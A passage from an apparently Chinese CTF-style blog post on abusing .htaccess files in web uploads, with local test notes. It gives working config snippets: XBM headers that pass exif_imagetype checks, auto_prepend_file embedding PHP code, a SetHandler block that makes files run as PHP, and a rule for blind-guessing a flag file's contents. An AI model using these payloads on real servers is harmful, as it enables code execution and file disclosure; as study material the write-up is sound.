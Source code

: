 4.绕过

\#  0x00 可以当注释  \ +换行 绕过关键字
htaccess 大小写不敏感

如下可绕过 exif_imagetype 检测
```
#define xlogo_width 1337
#define xlogo_height 1337
```


5、 可以使用如下语句
```php
php_value auto_prepend_file  ".htaccess"
# <?php phpinfo(); ?>
```


6、其他奇怪操作

开启php 解析 (2021-5-11补充)

```
<FilesMatch "xxx">
SetHandler application/x-httpd-php
php_flag engine on
</FilesMatch>
```



盲注猜文件

```
<If "file('/flag')=~ /flag{a/">
ErrorDocument 404 "wupco"
</If>
```







本地测试发现，会爆500错误
[![1qLd4P.md.png](https://s2.ax1x.com/2020/02/13/1qLd4P.md.png)](https://imgchr.com/i/1qLd4P)
phpstudy_pro中php版本 测试无一成功，用phpstudy2018版本中，仅非nts版本测试成功，
[![1qLhCV.png](https://s2.ax1x.com/2020/02/13/1qLhCV.png)](https://imgchr.com/i/1qLhCV) &nbsp;&nbsp;&nbsp;&nbsp; &nbsp;[![1qLjC6.png](https://s2.ax1x.com/2020/02/13/1qLjC6.png)](https://imgchr.com/i/1qLjC6)

成功结果如下
[![1qXhXF.png](https://s2.ax1x.com/2020/02/13/1qXhXF.png)](https://imgchr.com/i/1qXhXF)

也就是说利用php_value时，存在失败的可能，原因通过日志来看
```
Invalid command 'php_value', perhaps misspelled or defined by a module not included in the server configuration
```
nts含义就不在这里说了。可能是PHP处理程序不同的原因，原因可以参考一下 https://forums.cpanel.net/threads/invalid-command-php_value-perhaps-mis-spelled-or-defined-by-a-module-not-included.184931/
[PHP处理程序](http://www.voidcn.com/article/p-qfxtodcn-btz.html)
